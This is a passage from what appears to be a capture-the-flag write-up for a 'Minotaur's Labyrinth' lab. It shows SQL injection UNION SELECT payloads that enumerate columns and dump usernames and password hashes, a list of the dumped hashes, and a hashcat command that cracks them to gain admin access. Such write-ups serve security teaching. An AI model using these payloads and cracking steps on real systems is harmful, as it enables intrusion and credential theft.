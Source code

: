 So far so good! From the drop down is People & Creatures so rather enumerating for other tables I decided to look at at the columns for these tables with the command

```'UNION SELECT 1,group_concat(column_name),3 from information_schema.columns where table_schema = database() and table_name ='people';-- -```

![tablecolumns](/assets/images/minotaurslabyrinth/tablecolumns.png)

This provided the column names:

- idPeople
- namePeople
- passwordPeople
- permissionPeople

Now with the query ```'UNION SELECT 1,namePeople,passwordPeople from people;-- -``` I could get a list of the names and passwords.

![sqluserlist](/assets/images/minotaurslabyrinth/sqluserlist.png)

I also wanted to see the permissions to each person so did another query to get this information, there is probably a way to use group concat to put all the information on one line but I just did a second query.

![peoplepermission](/assets/images/minotaurslabyrinth/peoplepermission.png)

M!n0taur is an admin. I put all the names and password hashes in to a file.

```highlight
└──╼ $cat peoplecreds 
Eurycliedes:42354020b68c7ed28dcdeabd5a2baf8e
Menekrates:0b3bebe266a81fbfaa79db1604c4e67f
Philostratos:b83f966a6f5a9cff9c6e1c52b0aa635b
Daedalus:b8e4c23686a3a12476ad7779e35f5eb6
M!n0taur:1765db9457f496a39859209ee81fbda4
```

Now using the command ```hashcat -m 0 peoplecreds /usr/share/wordlists/rockyou.txt --username``` I can use hashcat to crack the hashes.

![crackedusers](/assets/images/minotaurslabyrinth/crackedusers.png)

I logged out of the portal and back in with M!n0taur's credentials and now had admin access.
